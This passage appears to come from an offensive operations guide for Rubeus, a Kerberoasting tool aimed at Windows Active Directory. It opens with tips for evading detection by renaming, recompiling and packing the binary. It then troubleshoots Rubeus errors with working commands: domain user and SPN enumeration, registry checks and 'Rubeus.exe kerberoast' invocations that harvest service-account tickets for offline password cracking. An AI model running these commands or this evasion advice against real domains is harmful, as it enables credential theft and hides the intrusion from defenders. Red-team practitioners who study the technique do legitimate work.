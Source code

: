 **4. Obfuscate Binary**
- Rename Rubeus.exe
- Recompile from source with different name
- Pack/encrypt executable

---

## Common Errors & Fixes

### Error: "[X] KDC_ERR_C_PRINCIPAL_UNKNOWN"

**Cause:** User doesn't exist or wrong domain

**Fix:**
```powershell
# Verify username
net user username /domain

# Check domain name
echo %USERDNSDOMAIN%

# Use correct format:
Rubeus.exe kerberoast /user:DOMAIN\username
```

---

### Error: "[X] Unhandled Rubeus exception: System.AccessViolationException"

**Cause:** .NET version mismatch or corrupted binary

**Fix:**
```powershell
# Re-download Rubeus
# Ensure .NET 4.5+ installed

# Check .NET version
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
```

---

### Error: "No users found to Kerberoast"

**Cause:** No SPNs in domain OR no access to query LDAP

**Fix:**
```powershell
# Verify you can query AD
Get-ADUser -Filter * -Properties ServicePrincipalName | Where {$_.ServicePrincipalName}

# Check if SPNs exist
setspn -Q */*

# Specify domain controller
Rubeus.exe kerberoast /dc:DC01.corp.local
```

---